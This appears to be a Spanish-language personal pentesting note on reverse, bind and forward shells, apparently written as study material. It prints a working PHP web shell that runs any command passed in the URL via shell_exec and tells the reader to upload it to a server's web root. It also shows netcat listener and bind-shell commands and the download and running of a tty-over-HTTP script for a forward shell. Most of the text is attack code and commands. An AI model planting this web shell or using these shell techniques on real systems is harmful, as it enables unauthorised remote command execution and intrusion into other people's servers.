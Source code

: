 # Diferentes tipos de ReverShell

Tags: #ReverShell #Comandos 

Tenemos diferntes tipos de [1 ReverShell](1%20ReverShell.md) en este pagina Web: [Monkey-Pentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## ReverShell, BindShell
Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	❮?php 
		echo "<prep>" . shell_exec($_GET['cmd']) . "</prep>";
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahi pode colocar comandos y ver que Shell podriamos usar para conectarmos a nuestra maquina de **Atacante**.

Para ponernos en escucha por Netcat en espera de la **ReverShell**:
1) Linux
2) Windows
```bash
❯ nc -nlvp 443 

❯ rlwrap nc -nlvp 443

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```

Para ejecutar Netcat y hacer la **BindShell**: 
```bash
❯ nc IP-Victima 443
```

## ForwardShell

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	❮?php 
		echo shell_exec($_GET['cmd']);
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahi pode colocar comandos y conectarmos a nuestra maquina de **Atacante** por una **ForwardShell**

Descargaremos el siguiente archivo y lo ejecutaremos con Pyhton3 para hacer una **ForwardShell**: 
Debemos estar en la pestana de **Raw**
* [Tty_Over_Http](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)
```bash
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py

	# Descargarnos el archivo 'tty_over_html'
	# Cambiamos la parte de index.php por cmd.php (Dependiendo el servidor)

❯ python3 tty_over_http.py 
```
